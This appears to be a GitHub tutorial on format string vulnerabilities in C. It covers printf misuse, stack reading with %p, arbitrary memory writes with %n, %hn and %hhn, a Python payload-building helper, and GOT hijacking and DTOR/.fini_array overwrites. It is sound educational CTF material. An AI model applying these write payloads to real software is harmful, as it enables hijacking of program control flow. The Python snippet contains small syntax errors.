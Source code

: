 # Format String Attack
First, take a look at the **printf** example.
```C
printf("%p",a);   //such %p is called "Format String"
//However, many people just use like the following >
printf("a");     //or printf(buf);  
//Vulnerability also live in family of printf,vsprintf,fprintf,vsnprintf,sprint,vfprintf,snprintf,vprintf.
```  
Now, you should know that is very **dangerous**. When the author forget to use the format string then hacker can **control** the format string to attack. OK, let's us learn how to attack.  

## Printf Layout
Sometimes printf will printf some weird value in the following situation.:scream:  
```C
#include <stdio.h>
#include <stdlib.h>
int main(int argc,char *argv[]){
  char *format = "%s";
  char *arg1 = "hello world!\n";
  printf(format,arg1);
  return EXIT_SUCCESS;
}  
// command "man 3 printf" then you can see more use of printf
// The above example is the right use  
printf("%p %p",a);
```  
We already know that one %p represents a variable. But in the example above, we can see that we use two %p with only one example, then we can see a weird value print out on result without crash. In fact, the weird value comes from the **stack**.:yum:  
The picture following can help you understand more......  
<img src="https://github.com/shinmao/WhyNot-StackOverflow/blob/master/Format-String-Attack/printf%20layout.png" width="626" height="276">   
Therefore, the value are all located in the consecutive position in the following. We can also print the value in specified location with the format string of %(num)$p.  

## Use of Format String
```C
%d: 4byte of integer, output decimal number
%u: 4byte of unsigned integer
%c: 1byte of character
%x: 4bytes of hex, output hexadecimal number
%s: 4byte string, read string from memory  
%p: ptr address  
%n: the number of string, write the number of bytes untill the format string to memory  
%(num)c: at least num of string  
%h: 2byte, short int  
%hh: 1byte of char
%l: 4byte, long int
%ll: 8byte, long long int
```  
You may get tired with the rules above. Don't worry, I will show how to use it in soon.:+1:  
> When we start to attack, we also need to be careful that printf() will be eaten by the null bytes, this usually happen in 64-bits!  

## Read from arbitrary memory  
  
### First, tell you a little trick
When we neen to make the payload, the number before c is always a complex problem.  
Therefore, how about make up a function to calculate for us.    v Python  
```Python
def fmt(prev,val,index):
  result = ""
  if prev < val :
    result += "%"+str(val-prev)+"c"
  elif prev == val :
    result += ""
  else :  
    result = "%"+str(val-prev+256)+"c"  
  result += "%"+str(index)+"$hhn"
  return result  
#
#Try to play with this function??
#
$target is the value we want to write in  
for i in range(4):
  payload += fmt(prev,(target >> i*8)& 0xff,$index+i)  
  prev = (target >> i*8)& 0xff
```  

## Write to arbitrary memory  
```C
"12345%3$n"   //write len(12345) to the fourth parameter  
"%123c%3$n"   //write 123 to the fourth parameter because "c" is the count
"%123c%3$hhn" //write one byte
"%30c%3$hhn%70c%4$hhn"   //Be careful, this mean we write 100 to the fifth parameter!!
```  
How do we solve the null-byte problem?  
```C
"%45068c%10$hn\xdd\xaa\x00\x00\x00\x00...."   //put the address at the end of payload then we can solve the problem  
```  
Besides, for convenience, we will padding format string to the 8 bytes.  
  
:fire: **GOT hijacking**  
What is GOT? List of pointers to dynamically linked symbols.  
```
readelf --relocs ./elf  
gdb-peda$ got
```  
![How about review GOT?](https://rafaelchen.wordpress.com/2017/09/25/pwn%E7%9A%84%E4%BF%AE%E7%85%89%E4%B9%8B%E8%B7%AF-lazy-binding/#more-1244)  
**Be sure that RELRO not be FULL**. When RELRO is open, pltsymbol will be removed.  
![Practice makes progress](https://github.com/shinmao/CTF-writeups/tree/master/NTU-CTF-2017/format-string)  
In the **craxme3.py**, it is the best practice of format string in GOT-Hijacking.  
:fire: **DTOR Overwrite**  
It is an old use of format string attack that hijack the flow after main function finished.  
Because most C programs will call destructors after main is executed.  
What is DTOR list? List of destructors to call.  
e.g.DEADBEEF: __DTOR_END__  
e.g.DEADBEEB: __DTOR_LIST__  
<img src="https://github.com/shinmao/WhyNot-StackOverflow/blob/master/Format-String-Attack/fini_array.png" width="637" height="122">
Nowadays, we can use command of **'objdump -h -j .fini_array ./elf'** to get the address of it.  
**Be sure that RELRO to be disabled**.

## Advanced trick  
:fire: **RBP chain**  
It is also an interesting trick used in **double function call**.  
<img src="https://github.com/shinmao/WhyNot-StackOverflow/blob/master/Format-String-Attack/rbp%20chain.png" width="406" height="538">  
In fact, I still not complete the practice of it. After that I will update this tutorial in soon!
